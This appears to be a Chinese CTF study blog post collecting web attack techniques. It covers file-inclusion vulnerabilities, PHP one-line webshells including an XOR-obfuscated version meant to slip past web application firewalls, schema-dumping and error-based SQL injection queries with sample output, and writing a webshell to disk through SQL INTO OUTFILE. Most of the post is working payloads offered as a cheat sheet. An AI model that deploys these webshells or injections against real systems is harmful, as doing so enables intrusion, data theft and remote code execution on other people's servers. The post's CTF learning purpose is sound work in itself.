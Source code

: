 ```yaml
---
layout: post
title: WEB知识汇总贴
categories: [WEB]
description: WEB知识汇总贴
keywords: WEB
---
```


#WEB知识汇总贴

今天怼了一道pwnhub.cn的pwn题，然后那道pwn题最终是要利用一个sql注入。。然后今天学了各种WEB姿势，先开个帖，以后碰到以后总结

## 文件包含漏洞

典型值

```
index.php?page=xxx;
xxx可能是md5、也可能是文件名
文件包含漏洞可以直接读各种文件，也可以怼php伪协议执行任意php代码，上传webshell
```

## webshell的各种姿势

#### 各种一句话木马

```php
<?php echo system($_POST[1]);?>
---
POST 1=ls /home/ctf

<?php eval($_POST[1]);?>
<?php eval($_POST['passwd']);?> 
可以用菜刀直接连

<?php fputs(fopen('shell.php','w'),'<?php eval($_POST[shell])?>');?>
可以改变木马等输出路径、也可以利用解析漏洞去解析木马

```

还有各种混淆版本，绕过waf，如

```php
<?php @$_++;
$__=("#"^"|").("."^"~").("/"^"`").("|"^"/").("{"^"/");         // $__的值为_POST
@${$__}[!$_](${$__}[$_]);?>

```

也可以base64等各种编码解码。参考资料：

* http://www.91ri.org/11494.html
* http://www.mamicode.com/info-detail-1466690.html
* http://www.shangxueba.com/jingyan/1617540.html

菜刀不管用可以手动测试分析问题，有时候菜刀就是不管用

## 各种SQL注入

### 爆数据库名、表名、列名

```
select concat(group_concat(distinct schema_name)) from information_schema.schemata
select concat(group_concat(distinct table_name)) from information_schema.tables where table_schema=十六进制数据库名
select concat(group_concat(distinct column_name)) from information_schema.columns where table_schema=十六进制数据库名 and table_name=十六进制表名

```

### 报错注入 

如果能够回显SQL的错误信息，则可以通过报错注入爆各种想爆的信息

```
select * from TOKENS where PASSWORD = 1 and (updatexml(0x3a,concat(1,(select user())),1))
---
ERROR 1105 (HY000): XPATH syntax error: 'pwnhub@localhost'

```

```
insert into TOKENS (TOKENS,PASSWORD) VALUES('222',''+(select TOKENS from BID where TOKENS =1233 and (updatexml(0x3a,concat(1,(select @@secure_file_priv)),1))));
---
ERROR 1105 (HY000): XPATH syntax error: '/var/lib/mysql-files/'
```

```
insert into TOKENS (TOKENS,PASSWORD) VALUES('222',''+(select TOKENS from BID where TOKENS =1233 and (updatexml(0x3a,concat(1,(select concat(group_concat(distinct table_name)) from information_schema.tables where table_schema=0x646174657769746866697265)),1))))
---
ERROR 1105 (HY000): XPATH syntax error: 'BID,TOKENS'

```

更多详见http://www.cnblogs.com/Dleo/p/5493782.html

### SQL盲注

#### bool 盲注

### 利用SQL注入上传一句话木马

```
SELECT '<?php eval($_POST[1]);?>' INTO OUTFILE '/tmp/shell.php'

```
能否上传成功取决于select @@secure_file_priv的值，如果为空则在mysql层面上不做访问控制，如果为某目录则只能写到该目录中

```
select @@secure_file_priv
```

## 其他基础知识

### MYSQL相关

```
CREATE USER 'username'@'host' IDENTIFIED BY 'password';
grant all privileges on *.* to pwnhub@localhost
```
